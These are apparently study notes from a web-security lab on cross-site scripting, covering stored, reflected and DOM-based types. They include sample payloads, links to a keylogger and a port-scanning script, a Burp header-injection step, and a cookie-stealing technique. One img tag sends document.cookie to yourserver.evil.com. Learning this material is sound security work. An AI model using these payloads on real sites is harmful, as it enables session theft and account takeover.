 - Stored / Persistent (Server-Side)
    - Runs when the Server loads the Side
    - if User Input is forwarded unfiltered to database
    - if User Input can be executes as javascript (e.g. "Add a comment" / Blog Posts)
-   Reflected (Client Side)
    - Target includes the Payload from Attacker in Response. Target has to open a specific URL to execute the HackerSoftware
-   DOM-Based (Special)
    -   Document Object Model - erlaubt das Ändern der HTML Dokument Struktur
    - Document Object Model - allows to change the HTML Document Structur
    - mostly uses the `<script></script>` Tag

XSS Payloads Examples:

```
<script>alert(“Hello World”)</script>

<script>alert(window.location.hostname)</script>

<script>document.querySelector('#thm-title').textContent = "I am a hacker"</script>

document.write(my Stuff, e.g. a Link)

XSS Keylogger http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html

Port scanning http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html
```


Cookies Logging and using Example:

```
We have made things easy for you. Requesting /log/hello will log hello for you.

The logs page will show you everything logged to /log/any_text URL.

This means, if you write a malicious script to steal someones cookie, you can have it logged for you to take over their account

Posting <script>document.location='/log/'+document.cookie</script> will log everyones cookies. Make sure its not your cookie when you're visiting the logs page as you will have also visited this page again.. You can check this by looking at your cookies in the Developer Tools console and executing document.cookie.

Once your victim (in this case you hope its Jack), to visit this page, it will log his cookie for you to steal! You can also use other HTML tags to make requests, including the img tag:

<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />

Now you have Jacks cookie, you can update your own by replacing its value. You can update your own cookies value in your Developers Tools. (developer Tools - Application - Cookies - connect.sid = value

Once you've replaced your cookie with Jacks, refresh your page and see who you are logged in as!
```




## DOM Based

XFS - Cross Frame Scripting, e.g. in Search Bar

`<iframe src="javascript:alert('xss')">`



## Persistent

-  In [Burp Suite](Burp%20Suite): Intercept On
- On Webseite: Log Out
- In Burp Suite: Request Headers - add
    - Name: True-Client-IP (similar to X-Forwarded-For header) (ist ähnlich zu X-Forwarded-For header, if header is not cleaned)
    -   Value: `<iframe src="javascript:alert('xss')">`




## Reflected

e.g. there is `?id=` in the URL, you can change the ID to Code and Reload the site

Example:

```
http://10.10.207.191/#/track-result?id=5267-9d92cb802200b213
http://10.10.207.191/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```